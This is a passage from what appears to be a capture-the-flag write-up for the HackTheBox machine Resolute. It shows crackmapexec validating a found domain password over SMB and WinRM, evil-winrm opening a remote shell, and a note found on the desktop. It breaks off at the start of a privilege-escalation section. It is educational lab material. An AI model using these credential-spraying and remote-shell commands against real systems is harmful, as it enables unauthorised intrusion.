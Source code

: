     
    root@kali# crackmapexec smb 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
    SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\ryan:Serv3r4Admin4cc123! (Pwn3d!)
    

The creds are valid for SMB. The `(Pwn3d!)` there sent me down a rabbit hole
that I haven’t found the end of yet and thus didn’t make it into this post.
That typically indicates that ryan can PSExec, but it fails. I’ve walked the
source code and understand what is happening. There might even be a shell out
of it (but also maybe not). I’ll see if the rabbit hole makes an interesting
follow on blog post. Anyway…

`crackmapexec` can also check WinRM, and ryan can authenticate:

    
    
    root@kali# crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
    WINRM       10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
    WINRM       10.10.10.169    5985   RESOLUTE         [+] MEGABANK\ryan:Serv3r4Admin4cc123! (Pwn3d!)
    

#### Shell

As shown above (or most of us probably just found out when trying it), the
creds work to get a shell as ryan:

    
    
    root@kali# evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
    
    Evil-WinRM shell v2.1
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\ryan\Documents>
    

## Priv: ryan –> SYSTEM

### Enumeration

#### note.txt

Right away I find `note.txt` on ryan’s desktop:

    
    
    *Evil-WinRM* PS C:\Users\ryan\desktop> type note.txt
    Email to team:
    
    - due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
    

So any changes I make to the system will have to be completely used within a
minute (or less). Good to keep in mind.

#### DnsAdmins
